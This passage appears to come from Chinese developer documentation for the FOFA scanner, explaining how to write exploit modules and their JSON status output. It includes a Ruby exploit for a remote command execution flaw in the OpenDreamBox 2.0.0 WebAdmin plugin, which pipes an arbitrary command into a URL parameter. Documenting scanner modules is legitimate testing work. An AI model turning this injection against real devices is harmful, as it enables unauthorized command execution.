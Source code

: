 
案例如下：**OpenDreamBox 2.0.0 - Plugin WebAdmin 远程命令执行** 
<pre>
	<code>
 def exploit(hostinfo)
    host, port = hostinfo.split(":")
    http = Net::HTTP.new(host, port)
    http.open_timeout = 10
    cmd = fetch_cfg('cmd')
    path = "/webadmin/script?command=|#{cmd}"
    resp = http.get(path)
    out = { "state": 1, "progress": 30, "output": "", "error": "" }
    puts out.to_json
    body = resp.body.force_encoding('UTF-8')
    if body&&body.empty?
      out = { "state": 3, "progress": 100, "output": body, "error": "failed" }
      puts out.to_json
    else body.include? "bin/sh: /usr/script/: Permission denied"
      out = { "state": 2, "progress": 100, "output": body, "error": "failed" }
      puts out.to_json
    end
    {}
	</code>
</pre>
编写exploit模块的时候，用 **cmd = fetch_cfg('cmd')** 接收json中的ExpParams中命令参数的值。
页面中需要返回一个json，确保fofascan不会出错。返回的结果可根据实际情况渲染、匹配正确的结果。
<pre>
    out = { "state": 1, "progress": 30, "output": "", "error": "" }	
</pre>
json的格式说明，**"state"："1"** 表示命令执行中，**"state"："2"** 表示执行完成，**"state"："3"** 表示执行失败。
后续版本会完善漏洞利用模块，在客户端展示，目前仅支持命令行利用。

**展示效果如下：**
![](images/image9.png)

# FOFA PoC提交
1. 文件名中不能含有除a-z(所有小写英文字母) A-Z(所有大写英文字母) _(下划线) .(英文句号)意外的任何字符。
